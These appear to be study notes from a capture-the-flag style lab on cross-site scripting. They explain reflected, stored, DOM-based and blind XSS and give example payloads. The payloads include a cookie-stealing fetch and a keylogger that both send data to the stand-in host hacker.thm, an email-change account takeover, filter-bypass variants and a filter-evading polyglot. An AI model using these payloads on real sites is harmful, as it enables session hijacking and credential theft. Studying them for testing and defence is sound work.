

# Cross site scripting

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.



## Stored XSS

 the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
 
 

**How to test for Stored XSS:**  

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

* Comments on a blog
* User profile information  
* Website Listings

## DOM based XSS

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

**Example Scenario:**  
  
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

## Blind XSS

Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com/). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

---

## Perfecting the payload

Levels of sophistication of payload based on HTML element or JS used 

1. <h2> Hello, <script>alert('THM');</script></h2>
2. "><script>alert('THM')</script>
    - e.g.
    - <input value=""><script>alert('THM');</script>
3. </textarea><script>alert('THM');</script>
    - <textarea></textarea><script>alert('THM');</script></textarea>
4. `;alert('THM');//`
    - `<script>document.getElementByClassName('name')[0].innerHTML='';alert('THM');//'`
5. if there is a filter that removes the word `script`, we can use 
    - <sscriptcript>alert('THM');</sscriptcript>
6. if an input field is reflected as is in an img tag, we can do: 
    - /images/cat.jpg" onload="alert('THM');

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels above, and it would have executed the code successfully. 

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```